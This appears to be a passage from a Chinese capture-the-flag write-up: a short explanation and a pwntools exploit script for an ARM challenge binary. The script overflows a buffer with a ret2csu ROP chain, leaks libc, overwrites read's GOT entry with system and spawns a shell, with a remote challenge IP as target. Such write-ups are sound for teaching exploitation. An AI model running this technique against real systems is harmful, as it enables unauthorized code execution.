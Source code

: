 泄漏出地址之后，覆写`read got`为`system`的地址，然后在选一个已知的地址为`/bin/sh`这里使用的是`read.got+0x4`。之后再次执行`read`，参数是`read.got+0x4`。这样就可以`getshell`。

```
# encoding=utf-8
from pwn import *

file_path = "./bin"
context.arch = "amd64"
context.log_level = "debug"
context.terminal = ['tmux', 'splitw', '-h']
elf = ELF(file_path)
debug = 1
if debug:
    # p = process(["qemu-arm", "-L", ".",file_path])
    p = process(["qemu-arm", "-L", ".", "-g", "1234", file_path])
    # gdb.attach(p)
    libc = ELF('./lib/libc.so.6')
    one_gadget = 0x0

else:
    p = remote('139.159.210.220', 9999)
    libc = ELF('libc-2.31.so')
    one_gadget = 0x0


csu1 = 0x00010540
g1 = 0x00010498


def csu(address, arg1, arg2, arg3):
    payload = p32(address) + p32(1) + p32(arg1) + p32(arg2) + p32(arg3)
    payload += p32(0)*2 + p32(0x10548)
    return payload


raw_input()
payload = b"a"*0x104 + p32(csu1)
payload += csu(elf.got['printf'], elf.got['read'], 1, 2)
payload += csu(elf.got['read'], 0, elf.got['read'], 0x10)
payload += csu(elf.got['read'], elf.got['read'] + 4, 0, 0)
payload = payload.ljust(0x300, b"\x00")
p.sendafter("input: ", payload)

libc.address = u32(p.recv(4)) - libc.sym['read']
log.success("libc address is `{``}`".format(hex(libc.address)))
log.success("read got is `{``}`".format(hex(elf.got['read'])))
log.success("read address is `{``}`".format(hex(libc.sym['read'])))

p.sendline(p32(libc.sym['system']) + b"/bin/sh\x00")

p.interactive()
```
